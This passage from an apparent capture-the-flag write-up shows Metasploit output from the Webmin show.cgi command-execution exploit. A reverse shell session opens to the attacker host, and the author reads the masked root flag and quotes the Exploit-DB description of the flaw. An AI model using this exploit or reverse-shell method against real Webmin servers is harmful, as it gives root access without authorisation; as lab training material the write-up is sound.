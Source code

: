 ```
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo NQHi2CZk6m646Ep7;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "NQHi2CZk6m646Ep7\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.2.2.175:4444 -> 10.10.27.3:41238) at 2021-02-20 18:49:06 -0500
[*] Session 1 created in the background.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > 
```

We now have a shell and can naviagate to the flag.

```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               10.2.2.175:4444 -> 10.10.27.3:41238 (127.0.0.1)

msf6 exploit(unix/webapp/webmin_show_cgi_exec) > sessions -i 1
[*] Starting interaction with 1...


pwd
/usr/share/webmin/file/
cd /root
ls
root.txt
cat root.txt
a4b945830xxxxxxxxxxxxxxxxxxxxxx
```

### Alternate Escalation Method

When I originally couldn't get the Metapsploit exploit to work because of the wrong SSL setting, I did a bit of Googling and found some information on using the method mentioned in the Expoit DB entry. 

> The vulnerability exists in the /file/show.cgi component and allows an authenticated user, with access to the File Manager Module, 
> to execute arbitrary commands with root privileges.
